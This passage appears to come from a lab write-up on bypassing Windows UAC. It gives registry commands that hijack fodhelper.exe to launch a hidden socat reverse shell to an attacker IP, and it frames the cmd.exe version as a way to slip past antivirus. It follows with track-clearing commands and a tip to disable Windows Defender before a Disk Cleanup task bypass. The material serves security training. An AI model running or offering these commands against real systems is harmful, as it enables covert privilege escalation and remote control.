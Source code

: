 ### 19.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit, without considering possible variations. If we translate our exploit from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

```
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```
And we get a high integrity reverse shell:

## Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following commands:

```
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
-------------------------------------------------------

##  UAC: Environment Variable Expansion

**Bypassing Always Notify**

### Case study: Disk Cleanup Scheduled Task

**Note: Be sure to disable Windows Defender for this task, or you may have some difficulties when running the exploit. Just run the provided shortcut on your machine's desktop to disable it.**

To understand why we are picking Disk Cleanup, let's open the `Task Scheduler` and check the task's configuration:

### 20.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

Here we can see that the task is configured to run with the `Users` account, which means it will inherit the privileges from the calling user. The `Run with highest privileges` option will use the highest privilege security token available to the calling user, which is a high IL token for an administrator. Notice that if a regular non-admin user invokes this task, it will execute with medium IL only since that is the highest privilege token available to non-admins, and therefore the bypass wouldn't work.
